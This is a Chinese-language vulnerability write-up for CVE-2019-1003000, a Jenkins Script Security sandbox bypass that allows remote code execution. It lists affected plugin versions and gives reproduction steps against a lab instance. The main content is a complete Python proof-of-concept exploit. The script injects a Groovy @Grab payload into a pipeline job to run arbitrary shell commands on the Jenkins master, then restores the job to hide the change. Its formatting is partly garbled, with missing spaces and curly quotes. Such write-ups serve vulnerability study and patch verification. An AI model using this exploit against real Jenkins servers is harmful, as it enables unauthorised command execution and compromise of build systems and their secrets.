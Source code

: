 ```yaml
---
title: （CVE-2019-1003000）Jenkins 远程代码执行漏洞
id: zhfly2989
---
```


# （CVE-2019-1003000）Jenkins 远程代码执行漏洞

## 一、漏洞简介

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin 2.61.1之前的版本以及 Script Security Plugin 1.50之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有“Overall/Read”权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

## 二、漏洞影响

Declarative Plugin < 1.3.4.1

Groovy Plugin < 2.61.1

Script Security Plugin < 1.50

## 三、复现过程

### 环境搭建

```
gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

cdcve-2019-1003000-jenkins-rce-poc

pipinstall -r requirements.txt

cdsample-vuln `./run.sh` 
```

**输入账号密码user1:user1**

![image](../img/2278077d91fc90e17aa6b30e7fe6ea6f.png)

****poc进行攻击pythonexploit.py –url http://www.0-sec.org:8080 –job my-pipeline –usernameuser1 –password user1 –cmd “whoami”****

![image](../img/ab135849aefa036a7c7bf812156af549.png)

![image](../img/2b69dc8a2760cd03bf35253351296021.png)

### poc

```
#!/usr/bin/python

# Author: Adam Jordan

# Date: 2019-02-15

# Repository: [https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc)

# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

import argparse

import jenkins

import time

from xml.etree import ElementTree

payload = ‘’’

import org.buildobjects.process.ProcBuilder

@Grab(‘org.buildobjects:jproc:2.2.3’)

class Dummy{ }

print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()

‘’’

def run_command(url, cmd, job_name, username, password):

print ‘[+] connecting to jenkins…’

server = jenkins.Jenkins(url, username, password)

```
print '[+] crafting payload...'
ori_job_config = server.get_job_config(job_name)
et = ElementTree.fromstring(ori_job_config)
et.find('definition/script').text = payload % cmd
job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

print '[+] modifying job with payload...'
server.reconfig_job(job_name, job_config)
time.sleep(3)

print '[+] putting job build to queue...'
queue_number = server.build_job(job_name)
time.sleep(3)

print '[+] waiting for job to build...'
queue_item_info = {}
while 'executable' not in queue_item_info:
    queue_item_info = server.get_queue_item(queue_number)
    time.sleep(1)

print '[+] restoring job...'
server.reconfig_job(job_name, ori_job_config)
time.sleep(3)

print '[+] fetching output...'
last_build_number = server.get_job_info(job_name)['lastBuild']['number']
console_output = server.get_build_console_output(job_name, last_build_number)

print '[+] OUTPUT:'
print console_output 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=‘Jenkins RCE’)

```
parser.add_argument('--url', help='target jenkins url')
parser.add_argument('--cmd', help='system command to be run')
parser.add_argument('--job', help='job name')
parser.add_argument('--username', help='username')
parser.add_argument('--password', help='password')

args = parser.parse_args()

run_command(args.url, args.cmd, args.job, args.username, args.password) 
``` 
```

## 参考链接

> https://www.freebuf.com/column/197026.html
